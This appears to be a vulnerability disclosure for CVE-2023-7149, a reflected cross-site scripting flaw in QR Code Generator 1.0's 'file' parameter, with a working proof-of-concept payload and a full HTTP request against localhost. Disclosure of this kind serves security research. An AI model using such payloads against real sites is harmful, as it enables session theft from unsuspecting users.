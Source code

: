 # CVE-2023-7149_QR_Code_Generator-Reflected_Cross_Site_Scripting
+ **Exploit Title:** CVE-2023-7149_QR_Code_Generator-Reflected_Cross_Site_Scripting
+ **Date:** 2023-27-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/qr-code-generator-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/QR_CODE_GENERATOR_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7149

## References: 
+ **CVE-2023-7149:** https://vuldb.com/?id.249153
+ https://www.cve.org/CVERecord?id=CVE-2023-7149
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7149

## Description:
QR Code Generator 1.0 allows Reflected Cross-site Scripting via parameter 'file' in "/qr-codegen/download.php?file=author.png". QR Code Generator is vulnerable to a cross-site scripting vulnerability because it fails to sufficiently sanitize user-supplied data.
An attacker may leverage this issue to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. This may allow the attacker to steal cookie-based authentication credentials and launch other attacks.

## Proof of Concept:
+ Copy the link address of "Download QR Code": "http://localhost/qr-codegen/download.php?file=author.png"
+ And navigate to `http://localhost/qr-codegen/download.php?file=author.png"><iMg src=N onerror=alert(document.domain)>`
+ Use this payload: `"><iMg src=N onerror=alert(document.domain)>`
+ The XSS will be triggered.
+ Alerts will pop-up.
+ Example request for 'file' parameter:
```
GET /qr-codegen/download.php?file=author.png"><iMg src=N onerror=alert(document.domain)> HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Referer: http://localhost/qr-codegen/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
```

![1](https://github.com/h4md153v63n/CVEs/assets/5091265/6f94b7e5-6ca1-4818-9a32-9bd990afa2ef)
<br>
<br>
![1-2](https://github.com/h4md153v63n/CVEs/assets/5091265/c9a8d093-c58a-4e6c-a848-92cfc4672ca8)
